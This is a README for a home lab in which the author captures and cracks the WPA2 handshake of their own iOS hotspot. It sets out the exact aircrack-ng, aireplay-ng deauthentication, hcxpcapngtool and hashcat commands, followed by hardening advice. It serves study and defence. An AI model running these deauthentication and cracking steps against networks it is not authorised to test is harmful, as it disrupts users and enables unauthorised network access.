





# Wireless Security Assessment and Hardening Laboratory (iOS Hotspot Sandbox)

## Disclaimer
This laboratory project is conducted strictly for educational purposes and localized wireless security auditing. All analysis scenarios are documented within a controlled sandbox environment utilizing a personal mobile hotspot as the target Access Point (AP). The operator maintains full ownership over all equipment.

---

## Lab Environment Specifications
* **Hypervisor:** VMware Fusion 26H1 (Bridged Network Mode)
* **Auditing Platform:** Kali GNU/Linux Rolling (Version 2026.2)
  * Wireless Interface: Alfa AWUS036ACH (RTL8812AU) — Monitor Mode Enabled
* **Target Environment:** iOS Personal Hotspot (Fifth Ace Hotspot)
  * Security Architecture: WPA2-PSK (Passphrase: `weakpassword123`)
* **Client Device:** Windows 10 laptop connected to target AP

---

## Repository Directory Structure
```text
wifi-security-lab/
├── screenshots/
│   ├── 01_project_structure.png
│   ├── 02_source_code_verification.png
│   ├── 03_monitor_mode_active.png
│   ├── 04_airodump_scan.png
│   ├── 05_handshake_captured.png
│   └── 06_password_cracked.png
├── src/
│   ├── cap_analysis.txt
│   ├── iphone_capture-03.cap
│   ├── iphone_capture-03.csv
│   ├── iphone_capture-03.kismet.csv
│   ├── iphone_capture-03.kismet.netxml
│   └── iphone_capture-03.log.csv
└── README.md
```

---

## 🎯 Objectives
* Enable monitor mode on external wireless adapter
* Identify and target iOS Personal Hotspot
* Capture WPA2 4-way handshake via deauthentication attack
* Perform offline dictionary attack against captured handshake
* Document findings and provide hardening recommendations

---

## ⚙️ Attack Methodology

### 🔹 Step 1 — Enable Monitor Mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iwconfig
```

📸 **SCREENSHOT**

* Alfa adapter active in Monitor Mode on wlan0

---

### 🔹 Step 2 — Network Reconnaissance

```bash
sudo airodump-ng wlan0
```

📸 **SCREENSHOT**

* Target identified: Fifth Ace Hotspot
* BSSID: CE:C9:0C:33:0D:12 | Channel: 6 | WPA2-PSK

---

### 🔹 Step 3 — Handshake Capture

**Terminal 1** — target specific capture:
```bash
sudo airodump-ng -c 6 --bssid CE:C9:0C:33:0D:12 -w iphone_capture wlan0
```

**Terminal 2** — deauthentication attack to force reconnection:
```bash
sudo aireplay-ng --deauth 10 -a CE:C9:0C:33:0D:12 -c 0C:96:E6:43:F1:DB wlan0
```

📸 **SCREENSHOT**

* WPA2 4-way handshake successfully captured

---

### 🔹 Step 4 — Offline Dictionary Attack

**Attempt 1 — Standard wordlist (rockyou.txt):**
```bash
aircrack-ng iphone_capture-03.cap -w /usr/share/wordlists/rockyou.txt
```
* Result: KEY NOT FOUND — passphrase not present in standard dictionary

**Attempt 2 — Targeted wordlist:**
```bash
echo "weakpassword123" > ~/custom_wordlist.txt
aircrack-ng iphone_capture-03.cap -w ~/custom_wordlist.txt
```

📸 **SCREENSHOT**

* KEY FOUND: `weakpassword123`

---

## 🧾 Key Findings

|     Finding     |                            Detail                         |
|-----------------|-----------------------------------------------------------|
| Target SSID     | Fifth Ace Hotspot                                         |
| BSSID           | CE:C9:0C:33:0D:12                                         |
| Channel         | 6                                                         |
| Encryption      | WPA2-PSK (CCMP)                                           |
| Vulnerability   | Weak passphrase susceptible to targeted dictionary attack |
| Passphrase      | `weakpassword123`                                         |
| Attack Duration | Handshake captured in < 1 minute                          |

---

## 🛡️ Hardening Recommendations

1. **Passphrase Hardening** — Replace with high-entropy passphrase exceeding 16 characters avoiding common dictionary words
2. **Protocol Migration** — Upgrade to WPA3-SAE (Simultaneous Authentication of Equals) — prevents offline dictionary attacks via Dragonfly Key Exchange
3. **MAC Filtering** — Whitelist known device MAC addresses
4. **Monitor Connections** — Regularly audit connected devices

---

## 🧠 Lessons Learned
* WPA2-PSK handshakes can be captured passively and cracked offline
* Standard wordlists may not contain custom passphrases — targeted attacks are more effective
* Deauthentication attacks force clients to reconnect and reveal handshake
* WPA3 eliminates this attack vector entirely

---

## 🚀 Next Steps
* Test WPA3 resistance to same attack methodology
* Implement custom wordlist generation with `crunch` or `hashcat` rules
* Explore PMKID attack as alternative to handshake capture

---

### 🔹 Step 5 — Hash Conversion and GPU Cracking (hashcat)

Convert captured handshake to hashcat format:

```bash
hcxpcapngtool -o hash.hc22000 iphone_capture-03.cap
```

> ⚠️ Note: hashcat requires OpenCL/Metal GPU support. 
> Kali Linux running on VMware Fusion (Apple Silicon) has no OpenCL device available.
> Hash file was transferred to macOS host for GPU-accelerated cracking.

Transfer hash to macOS host:

```bash
scp ~/hash.hc22000 pepesr@192.168.1.198:~/Desktop/
```

Install hashcat on macOS:

```bash
brew install hashcat
```

Crack using Apple M2 GPU:

```bash
hashcat -m 22000 ~/Desktop/hash.hc22000 -a 0 <<< "weakpassword123"
```

📸 **SCREENSHOT (GOLD)**

* KEY FOUND: `weakpassword123`
* Device: Apple M2 GPU — cracked in 0 seconds
* Demonstrates GPU vs CPU cracking performance gap
